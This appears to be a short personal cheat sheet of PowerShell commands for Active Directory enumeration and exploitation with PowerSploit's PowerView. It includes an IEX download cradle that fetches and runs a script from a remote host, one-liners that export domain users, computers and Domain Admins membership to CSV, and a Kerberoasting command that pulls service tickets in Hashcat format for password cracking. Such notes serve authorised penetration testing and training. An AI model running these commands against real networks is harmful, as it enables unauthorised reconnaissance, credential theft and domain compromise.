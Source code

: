 ```yaml
---
description: >-
  This is just a living document of things I have needed for domain
  enumeration/exploitation
---
```


# Domain Enumeration + Exploitation

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheat sheet, [check out HarmJ0y's](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993).

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
```
{% endcode %}

### Get Domain Users

{% code overflow="wrap" %}
```powershell
Get-NetUser * -Domain burmat.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-CSV users.csv
```
{% endcode %}

### Get Domain Computers

{% code overflow="wrap" %}
```powershell
Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv
```
{% endcode %}

### Get Group Members

{% code overflow="wrap" %}
```powershell
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object membername
```
{% endcode %}

### SPN Ticket Request (Kerberoasting)

{% code overflow="wrap" %}
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation
```
{% endcode %}
